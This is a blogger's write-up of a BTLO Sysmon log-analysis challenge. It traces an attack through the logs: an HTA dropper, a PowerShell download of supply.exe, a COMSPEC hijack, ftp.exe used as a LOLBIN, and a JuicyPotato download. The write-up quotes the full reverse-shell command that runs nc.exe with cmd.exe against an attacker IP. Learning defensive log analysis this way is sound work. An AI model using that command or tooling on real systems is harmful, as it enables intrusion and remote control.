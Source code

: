 ```yaml
---
layout: post
title: Log Analysis - Sysmon
date: 2024-02-01 3:00 +0700
categories: [BTLO, Security Operations]
tags: [Text Editor, PowerShell, Linux CLI, Blue Team, btlo]     # TAG names should always be lowercase
img_path: '/assets/BTLO'
image: 
  path: logo.png
--- 
```


I have read the questions so I can temporarily skip question 1 because I have no idea how to do it

### 2) What is the powershell cmdlet used to download the malware file and what is the port? (2 points)

Let's try searching for `powershell` to see if there's anything there
> After I searched on the `mousepad`, it was quite a lot, so I grep it and export it to a file to make it easier to see

```
grep 'powershell' sysmon-events.json > powershell.json

```

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/178ab53e-cf10-4aa4-886c-9156287c5509)

it's quite... ummm like tinder in my eyes @~@

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/cb4959b3-154f-48fd-af15-de720536b7d2)

After sitting down and reading, I saw the problem here when it downloads files `supply.exe` from `192.168.1.11` with port `6969` 
> `Invoke-WebRequest` is a command in PowerShell to load content from a `URL` or interact with `web services`

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/c476cc72-c049-499e-b05f-f9de4eb954ea)

`INvoke-WebRequest, 6969`

After determining the address of the attacker, go through the original file to see if it still interacts with anything else

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/fc5f0f6e-a7a9-49dc-806a-a22978e9ce5b)


oh well, so I downloaded something from Chrrome and then go back to `question 1`

### What is the file that gave access to the attacker? (2 points)

I read it and everything was pretty normal until I saw a download of an `updater.hta` file .-.
> with `EventID: 15`

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/93d2024b-c47d-492a-8818-8e455a2d871a)

We will learn about each one one by one

I just found this [report](https://www.joesandbox.com/analysis/1305463/0/html) :)))

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/04246404-388e-43d9-8a1f-3425aa41e18a)


![Alt text](https://media.giphy.com/media/PUBxelwT57jsQ/giphy.gif?cid=ecf05e47pzmz36leierqqgy6pmwkp2668u9ed6sif8q77h3n&ep=v1_gifs_search&rid=giphy.gif&ct=g)


Information about [EventID :15](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=90015)
> This event logs when a named file stream is created, and it generates events that log the hash of the contents of the file to which the stream is assigned (the unnamed stream), as well as the contents of the named stream. There are malware variants that drop their executables or configuration settings via browser downloads, and this event is aimed at capturing that based on the browser attaching a Zone.Identifier “mark of the web” stream.

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/62db1b68-9b12-4451-8998-1ea7b397b201)

From now on, it can be concluded that chrome is used to download `updater.hta` from hosting 192.168.1.11

Do you see `ZoneTransfer` with `ZoneId=3`?
> After researching on Google about [ZoneTransfer](https://michaelhidalgo.medium.com/sysmon-11-10-a-new-avenue-for-threat-detection-261fedbbe8b3)
```
0 — Local Machine Zone
1 — Local Intranet Zone
2 — Trusted Sites Zone
3 — Internet Zone
4 — Restricted Sites Zone
``` 
> So you know what `ZoneId=3` does, right ~

`updater.hta`

### 3) What is the name of the environment variable set by the attacker? (2 points)

After a morning of research, I found a blog about this issue [HUNTRESS](https://www.huntress.com/blog/from-powershell-to-payload-an-analysis-of-weaponized-malware)
> After reading, we know that `COMSPEC` is an environment variable and it usually points to cmd.exe

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/967c4045-cd8e-45e4-a464-33a6f2cb6b16)

`comspec=c:\Windows\temp\supply.exe`

### 4) What is the process used as a LOLBIN to execute malicious commands? (2 points)

Here is the document for your reference [Hunting for LoLBins](https://blog.talosintelligence.com/hunting-for-lolbins/)
> Simply put, it means taking advantage of any binary file provided by the operating system

after setting the environment variable `comspec` the binary file `ftp.exe` was executed

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/b31ba9ab-2fcc-494c-b608-e11060a20ecb)

`ftp.exe`

### 5) Malware executed multiple same commands at a time, what is the first command executed? (2 points)

I haven't done anything yet, just scrolled down and read it and boom!! kkk
> I see it executes the `ipconfig` command

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/95fb9530-850c-458a-a78c-329cf8159225)

`ipconfig` 

### 6) Looking at the dependency events around the malware, can you able to figure out the language, the malware is written (2 points)

After searching by `supply.exe`, see `python27.dll`, and yeh sure it is written in `python` code

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/0e23be30-7c88-49f0-a0b1-2fecd9539ea6)

`python`

### 7) Malware then downloads a new file, find out the full url of the file download (4 points)

Do you remember the powershell files we exported initially? Open them and you will see ~ 
> I suggest you can learn more about it here [juicy-potato](https://github.com/ohpe/juicy-potato)

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/c9566dc0-840a-453c-aeec-95bbee101e2d)

`https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe`

### 8) What is the port the attacker attempts to get reverse shell? (4 points)

After juicyPotato was downloaded, the attacker executed the following command
```
juicy.exe -l 9999 -p nc.exe -a \"192.168.1.11 9898 -e cmd.exe\

```

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/eb382701-fc28-4ae7-9d6c-dad682fde5fe)

`9898`

complete :_) 

![Alt text](https://media.giphy.com/media/JUADnkGLNv9n9eAPix/giphy.gif?cid=82a1493brjj1s7oqd1p1gg0fs50zdiyduzqpx7fo43dcqvsf&ep=v1_gifs_trending&rid=giphy.gif&ct=g)

goodbye, thank you for reading until now //~//


















